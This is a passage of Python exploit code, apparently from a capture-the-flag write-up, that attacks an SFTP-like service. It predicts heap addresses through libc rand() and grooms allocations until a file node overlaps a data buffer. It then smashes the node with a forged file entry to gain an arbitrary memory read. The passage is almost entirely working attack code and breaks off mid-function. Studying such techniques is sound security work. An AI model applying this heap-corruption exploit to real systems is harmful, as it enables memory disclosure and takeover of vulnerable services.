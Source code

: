 ```python
	malloc_count += 1
	return libctypes.rand() & 0x1FFFFFFF | 0x40000000

leak_location = malloc()
leak_value = 0x208BE0

log.info("Leak location: " + hex(leak_location))

# initial allocations
for i in range(5):
	malloc()

file_datas = {} # maps the address of a file node onto the address of it's data allocation
col_node = None # the node that gets smashed
col_data_node = None # the node whose data allocation does the smashing
MAX_DIST = 0x1000 # arbitrary maximum distance between overlapping objects
# smaller = harder to find overlap
# bigger = more IO overhead for r/w primitive

while not col_node:
	new_node = malloc()
	new_data = malloc()
	file_datas[new_node] = new_data
	for n, d in file_datas.items():
		if 0 < (n - new_data) <= MAX_DIST:
			col_node = n
			col_data_node = new_node

log.info("File node entry at 0x{:x} can overlap with data allocation at 0x{:x},"
         " belonging to file node 0x{:x}".format(col_node,
                                                 file_datas[col_data_node],
                                                 col_data_node))
log.info("{} mallocs needed".format(malloc_count))

sftp.sendline("yes")
sftp.sendline("DEBUG")

for a in file_datas.keys():
	if a != col_data_node:
		sftp.sendline("put {:x}".format(a))
		sftp.sendline("1")
		sftp.send("\0")

def setup_rw(address, size=8):
	sftp.sendline("put smasher")
	overlap = col_node - file_datas[col_data_node]
	# construct a fake file node entry
	ent = FileEntry(
		entry_type = FILE_ENTRY,
		name = "hacked",
		size = size,
		data = address
	)
	payload = "A"*overlap + str(buffer(ent))
	sftp.sendline(str(len(payload)))
	sftp.send(payload)
	sftp.recvuntil("sftp> ")

def read_mem(address, size=8):
	setup_rw(address, size)
	sftp.sendline("get hacked") # nice
	sftp.recvuntil(str(size)+"\n")
	data = sftp.recvn(size)
```